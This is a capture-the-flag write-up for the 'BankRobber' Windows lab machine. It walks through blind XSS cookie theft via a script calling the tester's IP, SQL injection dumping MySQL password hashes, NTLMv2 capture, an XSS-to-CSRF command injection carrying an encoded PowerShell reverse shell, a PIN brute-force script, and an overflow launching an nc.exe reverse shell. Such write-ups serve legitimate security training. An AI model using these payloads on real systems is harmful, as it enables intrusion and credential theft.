

# BankRobber

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Insane |
| **Topics** | XSS Cookie Hijacking, Cross-Site Request Forgery (CSRF), Malicious Javascript Cookie Hijacking, SQL Injection |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -v 10.10.10.154 -oN AllPorts 
```

Result:

```markdown
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

TCP Full Scan: 

```bash
nmap -p80,443,445,3306 -sCV -Pn -n -v 10.10.10.154 -oN FullScan.txt 
```

Result: 

```markdown
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-title: E-coin
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: E-coin
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-20T03:18:49
|_  start_date: 2024-11-20T03:14:50
|_clock-skew: mean: -6s, deviation: 0s, median: -7s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

HTTP Enum: 

```jsx
nmap -p80,443 --script "http-enum*" -Pn -n -v 10.10.10.154 -oN HTTPENumScan.txt
```

Result: 

```jsx
PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /Admin/: Possible admin folder
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.39 (win64) openssl/1.1.1b php/7.3.4'
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.39 (win64) openssl/1.1.1b php/7.3.4'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.39 (win64) openssl/1.1.1b php/7.3.4'
|_  /user/: Potentially interesting folder
443/tcp open  https
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /Admin/: Possible admin folder
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.39 (win64) openssl/1.1.1b php/7.3.4'
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting directory w/ listing on 'apache/2.4.39 (win64) openssl/1.1.1b php/7.3.4'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.39 (win64) openssl/1.1.1b php/7.3.4'
|_  /user/: Potentially interesting folder

```

MySQL Enum: 

```jsx
nmap -p3306 --script mysql-* -Pn -n -v 10.10.10.154 -oN MySQLScan.txt
```

Result: 

```jsx
PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-enum: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
|_mysql-empty-password: Host '10.10.14.4' is not allowed to connect to this MariaDB server
| mysql-brute: 
|   Accounts: No valid accounts found
|_  Statistics: Performed 47173 guesses in 600 seconds, average tps: 78.3
| mysql-info: 
|_  MySQL Error: Host '10.10.14.4' is not allowed to connect to this MariaDB server

```

# Initial Access

 Inspecting the webpage we can see that we have the option to Register or Login. 



If we try to register a new user, the website will allow us to do it: 


We can see that after hitting the `Submit Query` the server changed the URL to reflect that user was created:


Now, let’s try to authenticate with the credentials we just created. 

After hitting login we will see that the server allowed us to log on:


Now we have a new view which consists on few fields for transferring e-coins. 

Let’s try to send a test transfer to see how the server responds:


Immediately, after hitting Transfer E-COIN we can see popup message indicating that our transfer will be reviewed by an admin:


Based on this response, we can infer that each request or transfer submitted has to be review by someone. This indicates a possibility to inject a malicious XSS code in order to steal the cookies from the admin. 

Inspecting the request on BurpSuite we can see some additional information about how the cookies are handled: 


The `id=3` indicates our current user id, which means that user 1 and user 2 already exists. 

Additionally, we can see that username and password are encoded in Base64. 

Checking the payloads listed on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss) we can find the ones related to XSS Blind: 

XSS Blind: 

```jsx
<script src="http://10.10.14.4/test.js"></script>
```


After sending the request, we need to open a HTTP server on kali (could be using python module). 

If the admin is actively checking the requests, then, we should receive a HTTP request in our server: 


This indicates that server is vulnerable to XSS Blind. 

Next step is to craft a payload that retrieves the cookies from the administrator. 

First, let’s create a JS file containing the following code: 

```jsx
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.14.4/?cookie='+document.cookie, false);
request.send();
```

Note: change the IP according to your kali IP. 

Then, let’s use again the `src`  request to specify the file we just created as part of the request: 

```jsx
<script src="http://10.10.14.4/test.js"></script>
```

After sending the request, we should receive 2 requests, one for the JS script we created, which contains at the same time other javascript code, and the second request showing the content of the cookie after executing that javascript code: 


From the output we can see the Cookie for the admin, which as seen previously, it’s enconded on Base64: 

```jsx
username=YWRtaW4%3D;
password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
```

Decoded: 

```jsx
username=admin
password=Hopelessromantic
```

Let’s login with the credentials:


After login, we can see more options in the control panel. 

Checking the ID search box we can see that it is vulnerable to SQL Injection:


SQL Enumeration:

First we need to determine the amount of columns that are being returned in the current query, this will allow us to properly visualize the contents of our SQL queries.

We can start with a high number like 10 columns to see if it returns errors:

```sql
1' order by 10-- -
```

Result:


After testing with a lower number we will see that at the number 3 it stops giving errors:

```sql
1' order by 10-- -
1' order by 9-- -
1' order by 8-- -
1' order by 7-- -
1' order by 6-- -
1' order by 5-- -
1' order by 4-- -
1' order by 3-- -
```


This means that the query we see in the browser is only capable to return 3 columns as results. We need to have this in mind for the subsequent queries as we can’t indicate less than 3 columns or more than 3 in our queries. 

Next, we need to determine the version of the DB:

```sql
1' union select version(),2,3-- -
```

Result:


Noticed that we also specified the columns 2 and 3 in the query, this is because the query needs to return always at least 3 columns as we saw in the earlier testing.  We can use the ‘space’ of one of the 3 columns to inject our command, that said, it’s the same if we do:

```sql
1' union select 1,version(),3-- -
or
1' union select 1,2,version()-- -
```

As long as we provide the total of columns required, we will not have errors. 

Since the Version is MariaDB we can use the following Cheat Sheet: 

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

For better visibility let’s capture the request in BurpSuite and sent it to repeater: 


Let’s enumerate the databases:

```sql
' union select schema_name,2,3 FROM information_schema.schemata-- -
```

Result:


We can see the databases `bankrobber`, and `test` as the non-default ones, also the `mysql`

Let’s check what is the current DB in use:

```sql
' union select database(),2,3-- -
```

Result:


We can see the current DB in use is `bankrobber`

Let’s enumerate the other DBs, for instance check the tables inside the `mysql` database:

```sql
' union select 1,table_name,3 FROM information_schema.tables WHERE table_schema = 'mysql'-- -
```

Result:


We can see the table `user`

Let’s enumerate the columns of that table:

```sql
' union select 1,column_name,3 FROM information_schema.columns WHERE table_name = 'users'-- -
```

Result:


We can see the columns `User` and `Password` as the most interesting

Since we have the table name, and the columns, we can directly enumerate the table to discover its contents, however, since the DB in use was `bankrobber` and we are querying another DB, we need to specify the DB before the table name: database.table

```sql
' union select User,Password,3 FROM mysql.user-- -
```

Result:


We can see password hash for root. 

Hash:

```sql
root:F435725A173757E57BD36B09048B8B610FF4D0C4
```

Cracking the credentials: Using https://crackstation.net/ we can try to crack the password:


Success! We have the password in clear text for the user root of the MySQL. 

Credentials:

```sql
root:Welkom1!
```

However after testing the credentials against the server we can see that we couldn’t authenticate as our machine is not authorized. 


Let’s try again with a different approach using the SQL Injection again, this time we can take advantage of the function `load_file()` to generate a SMB request from the server to our kali machine, by doing this we can capture the hash NTLMv2 of the user.

First start a SMB Server on Kali:


Execute the following command: 

```sql
' union select 1,load_file("\\\\10.10.14.15\\ShareName\\"),3-- -
```

Note: remember to scape the backslashes from the query. 

After executing the command we will the NTLMv2 hash from the user `Cortin`:


```sql
Cortin::BANKROBBER:aaaaaaaaaaaaaaaa:8aa2a43886451f6b180250b2ce8d9b31:0101000000000000800703b28f47db0143b691cc4d90b87000000000010010004a0078006a0048006100540076007100030010004a0078006a00480061005400760071000200100054007100420073005a0076007a0046000400100054007100420073005a0076007a00460007000800800703b28f47db01060004000200000008003000300000000000000000000000002000005b27698cd82c018b972cf7396f2f743d3c73dbeea5bb418e7be489fad01c192b0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003500000000000000000000000000

```

Let’s try to crack the hash using JTR:

```sql
sudo john hash-cortin.txt --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt 
```

However it looks like hash is not crackeable.


Moving on, we will on the website another function called `Backdoorchecker`that apparently allow us to execute the dir command: 


However, if we try to execute the `dir` command it give us a warning that such command is only authorized to be executed if the request comes from the same server. 


Based on this information, we could potentially abuse the XSS to convert it into a XSRF attack. 

First, let’s take a look at the request sent using BurpSuite: 


We can see the request includes a parameter called `cmd=` followed by the command to be excuted which is `dir`. However, remember that we can only execute the command `dir`, but can also inject other commands by using the pipe `|`  

Should be something like this: 

```sql
cmd=dir | malicious-command
```

Next, we need to edit our own JS script to make the server to execute all the instructions, remeber that request is now a POST request and that the target will be the [localhost](http://localhost) as we want the admin to execute the request by us. 

```sql
var request = new XMLHttpRequest();
parameter = 'cmd=dir|powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA1ACIALAA0ADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request.send(parameter);
```

Finally, prepare the CSRF command injection that will request our malicious JS:

```sql
<script src="http://10.10.14.18/remote_command.js"></script>
```

Let’s switch to a normal user in the website (no admin) and proceed to send a new request using the transfer function: 


After some minutes we will see the first request to our malicious JS Script: 


Immediately, we will receive the reverse shell that we defined in the JS Script: 


Note: if after few minutes there is nothing received from the server, proceed to log off and log in again, send the request. Repeat this step until you receive the connection. 

# Privilege Escalation

### Internal Service Enumeration:

Checking the ports currently opened on the machine we will see one port that was not included in the initial scans, this port is `910`


We can see the PID associated with the port as `1648`

Checking the current list of processes running on Windows, we will that it belongs to a program identified as `bankv2.exe`


This process seems to be the file we can find in the C:\ path 


If we try to open the binary, it gives the following response: 


Which according to Google Translate, it’s `Access Denied`


Now, since the program is running under port 910, we can use nc.exe to connect internally to if we get another type of response: 


After trying to connect to the port 910, we can see another response, this time is asking us for 4-digit PIN. 

If try to provide a random PIN it gives Access Denied and get’s disconnected. 


However, since a 4-digit PIN is quite easy to brute force, we can try to create a portforwarding for the port 910 to our kali machine and after that, create a script that performs the brute force against the server. 

### Portforwarding

To accomplish that, we can use Chisel.exe

Reference: `Chisel` 

On kali or attacker machine run: 

```sql
./chisel server --reverse -p 1234  
```

On Victim machine run: 

```sql
.\chisel.exe client 10.10.14.18:1234 R:910:127.0.0.1:910
```

### Brute  Forcing:

Then, we will create a Brute Force script, since the PINs go from 0000 to 9999 it’s easy to brute force them in a short period of time.

First, we need to create our dictionary of PINs, to do this we can use a simple one line python script:

```sql
for i in {0000..9999}; do; print $i; done > PIN.txt
```

Use the following script: 

```sql
import sys
import socket, pdb, time
from pwn import * 

# Menu help 
if len(sys.argv) == 0 or sys.argv[1] == '-h' or sys.argv[1] == '-help':
        print("Use mode: \n" + "-> python3 " + sys.argv[0] + " target-ip " + "port " + "wordlist.txt")
        print("\nExample: \n" + "-> python3 " + sys.argv[0] + " 10.10.10.1 " + "910 " + "wordlist.txt")
        sys.exit(1)

# Verify if the file was passed as an argument to the script
if len(sys.argv) < 4:
        print("Please specify the wordlist to use")
        sys.exit(1)

# Read variables from input
ip = sys.argv[1]
port = sys.argv[2]

#Progress bar
p1 = log.progress("Brute Force: ")

# Function for exiting the script
def signal_handler(sig, frame):
        print("\n\n[!] Exiting \n")
        sys.exit(0)

def bruteforce():
        file = open(sys.argv[3], 'r')
        for pin in file:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Creates the socket for the connection
                s.connect((ip, int(port))) #Connects to the host
                data = s.recv(4096)
                s.send(pin.encode())
                data = s.recv(4096)
                p1.status("Testing PIN: " + pin)
                if b"Access denied" not in data:
                        print("PIN is: " + pin)
                        sys.exit(0)

if __name__ == '__main__':
        bruteforce()
```

Use:

```sql
python3 brute-force.py 127.0.0.1 910 PIN.txt
```

After few seconds we will the correct PIN: 


We can see the PIN as `0021`

Checking with the tool:


After entering the PIN we can see `Access granted` and now is asking to enter an amount of e-coins. 

Testing a with a random number: 


The program replied with the following line which is interesting: 

```sql
$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe
```

If we enter another value but this time with more values:


We will see that the line `Executing e-coin transfer tool` with some of the numbers we provided, meaning that program seems to be vulnerable to some kind of overflow. 

 

Based on this information we can use `pattern_create.rb`  to measure the offset of the overflow:

```sql
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

Testing the payload:


Let’s grab the first 4 digits of the payload execution which are: 

```sql
0Ab1
```

Using the `pattern_offset` we can determine the offset: 

```sql
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0Ab1 
```

Result:


This indicates that the offset is 32.

Using the following command we can create the payload including the first part of the offset which is 32 followed by the command or tool we want to execute. 

```sql
python -c 'print("A"*32+"C:\\Users\\Cortin\\Desktop\\nc.exe 10.10.14.18 4445 -e cmd.exe")'
```

Note: since the program is expecting a path and a binary to execute, we need to transfer the `nc.exe` to the victim machine to later execute it. A PowerShell Base64 encoded payload will NOT work on  this scenario. 

Final payload will be this one:

```sql
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\Desktop\nc.exe 10.10.14.18 4445 -e cmd.exe
```

Sending the payload:


Finally got the shell:

